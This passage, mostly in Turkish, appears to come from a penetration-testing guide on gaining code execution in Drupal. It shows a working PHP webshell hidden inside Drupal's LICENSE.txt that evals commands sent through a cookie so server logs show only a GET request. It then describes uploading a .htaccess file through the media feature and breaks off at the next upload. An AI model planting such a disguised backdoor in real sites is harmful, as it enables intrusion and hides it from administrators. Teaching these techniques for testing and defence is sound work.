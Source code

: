 Çünkü Webshell (biz buna LICENSE.txt diyeceğiz) Web sunucusuna yüklendikten sonra, komutlarımızı `$_COOKIE` aracılığıyla iletebiliriz ve bu, Web sunucusu günlüklerinde bir metin dosyasına yapılan meşru bir GET isteği olarak görünecektir.

Webshell'imize neden LICENSE.txt adını veriyoruz?

Basitçe, örneğin [core/LICENSE.txt](https://github.com/drupal/drupal/blob/11.x/core/LICENSE.txt) dosyasını alırsak (ki bu dosya Drupal çekirdeğinde zaten mevcut), 339 satır ve 17.6 KB boyutunda bir dosyamız var, bu da ortasına küçük bir PHP kodu eklemek için mükemmel (çünkü dosya yeterince büyük). 

<figure><img src="../../../images/image (7) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Dosya: Patched LICENSE.txt
```txt

...

this License, you may choose any version ever published by the Free Software
Foundation.

<?php

# We inject our payload into the cookies so that in the logs of the compromised
# server it shows up as having been requested via the GET method, in order to
# avoid raising suspicions.
if (isset($_COOKIE["89e127753a890d9c4099c872704a0711bbafbce9"])) {
if (!empty($_COOKIE["89e127753a890d9c4099c872704a0711bbafbce9"])) {
eval($_COOKIE["89e127753a890d9c4099c872704a0711bbafbce9"]);
} else {
phpinfo();
}
}

?>

10. If you wish to incorporate parts of the Program into other free
programs whose distribution conditions are different, write to the author

...

```
#### **Bölüm 3.1 (dosya yükle .htaccess)**

Öncelikle, Apache direktiflerini içeren dosyamızı yüklemek için _Add Document_ (/media/add/document) özelliğini kullanıyoruz (.htaccess).

<figure><img src="../../../images/image (8) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../images/image (9) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../images/image (10) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Bölüm 3.2 (dosya yükle LICENSE.txt)**
